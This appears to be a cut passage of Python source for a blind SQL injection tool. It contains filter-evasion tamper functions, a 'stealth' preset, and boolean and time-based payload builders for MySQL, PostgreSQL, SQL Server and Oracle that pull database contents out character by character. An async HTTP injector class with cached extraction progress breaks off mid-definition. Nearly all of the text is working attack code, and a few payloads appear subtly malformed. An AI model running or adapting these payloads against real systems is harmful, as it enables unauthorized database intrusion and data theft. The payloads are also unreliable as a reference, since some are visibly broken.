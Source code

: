 ```
def tamper_randomcase(payload: str) -> str:
    return ''.join(c.upper() if random.random() > 0.5 else c.lower() for c in payload)
TAMPERS['randomcase'] = tamper_randomcase

def tamper_equaltolike(payload: str) -> str:
    return payload.replace('=', ' LIKE ')
TAMPERS['equaltolike'] = tamper_equaltolike

PRESETS: Dict[str, List[str]] = {
    'stealth': ['randomcase', 'space2comment', 'equaltolike'],
}

# ----------------------- SQL Engines -----------------------
class SQLEngine(ABC):
    name: str
    @abstractmethod
    def boolean_payload(self, concat_expr: str, position: int, mid: int) -> str:
        pass
    @abstractmethod
    def time_payload(self, concat_expr: str, position: int, mid: int, delay: int) -> str:
        pass

class MySQLEngine(SQLEngine):
    name = 'mysql'
    def boolean_payload(self, e, p, c): return f"1' OR ASCII(SUBSTRING(({e}),{p},1))={c}-- "
    def time_payload(self, e, p, c, d): return f"1' OR IF(ASCII(SUBSTRING(({e}),{p},1))>{c}, SLEEP({d}),0)-- "

class PostgreSQLEngine(SQLEngine):
    name = 'postgres'
    def boolean_payload(self, e, p, c): return f"1' OR (SELECT ASCII(SUBSTRING(({e})::text,{p},1)))={c}-- "
    def time_payload(self, e, p, c, d): return f"1'; SELECT CASE WHEN ASCII(SUBSTRING(({e})::text,{p},1))>{c} THEN pg_sleep({d}) ELSE pg_sleep(0) END-- "

class SQLServerEngine(SQLEngine):
    name = 'mssql'
    def boolean_payload(self, e, p, c): return f"1' OR ASCII(SUBSTRING(({e}),{p},1,1))={c}-- "
    def time_payload(self, e, p, c, d): return f"1'; IF(ASCII(SUBSTRING(({e}),{p},1,1))>{c}) WAITFOR DELAY '00:00:{d}'-- "

class OracleEngine(SQLEngine):
    name = 'oracle'
    def boolean_payload(self, e, p, c): return f"1' OR ASCII(SUBSTR(({e}),{p},1))={c} FROM dual--"
    def time_payload(self, e, p, c, d): return f"1' OR (CASE WHEN ASCII(SUBSTR(({e}),{p},1))>{c} THEN DBMS_LOCK.SLEEP({d}) ELSE 0 END) FROM dual--"

# -------------------- Injector --------------------
class BlindSQLInjector:
    def __init__(self, engine: SQLEngine, **kwargs):
        self.console = Console()
        self.engine = engine
        self.__dict__.update(kwargs)
        self.client = httpx.AsyncClient(timeout=self.timeout)
        self._load_cache()

    def _load_cache(self):
        if Path(self.cache_file).exists():
            self.cache = json.load(open(self.cache_file))
        else: self.cache = {'extracted':'','pos':1}
    def _save_cache(self): json.dump(self.cache, open(self.cache_file,'w'))

    async def _probe(self, payload: str) -> bool:
```